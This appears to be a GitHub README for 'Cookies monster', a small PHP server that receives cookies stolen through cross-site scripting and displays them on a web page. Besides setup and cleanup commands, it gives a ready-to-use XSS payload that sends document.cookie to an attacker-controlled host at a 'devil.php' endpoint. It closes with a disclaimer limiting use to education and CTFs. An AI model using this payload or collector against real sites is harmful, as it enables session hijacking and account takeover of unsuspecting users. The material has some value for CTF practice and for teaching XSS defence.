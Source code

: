 
# Cookies monster 🍪
A tool to collect cookies and show them in a web page.


## Documentation 📖

This tool is to collect cookies via logs with XSS, This is how it works:


### Install requiriments 🔭

First you need to start the requiriments, you just need `php8.3`.

~~~bash
sudo apt install php8.3
~~~

#### Run the server 🏃

To run the server you need to be in the main directory of the project to then run the server with `PHP`

~~~bash
php -S localhost:3333
~~~


## Collecting cookies 🗡️

You need to know how to do XSS Attacks to use this tool in a correct way, you have to add this URL `http://YOUR_IP:PORT/devil/devil.php?i=` to your script and then add the cookies, for example:

~~~JS
new Image().src='http://YOUR_IP:PORT/devil/devil.php?i='+document.cookie;
~~~

Then you will have the cookie in the file `cookies.txt` and it will be displayed in the web page


## cleaning cookies 🗑️

To clean cookies you just need to add an space the `cookies.txt` file, you can use this command:

~~~bash
echo " " > devil/cookies.txt
~~~


## DISCLAIMER ⚠️

This tool is for educational and CTF use only.
The author is not responsible for illegal use.
Unauthorized access is a crime in most countries and may carry legal penalties.
Use responsibly and only with proper permission.

---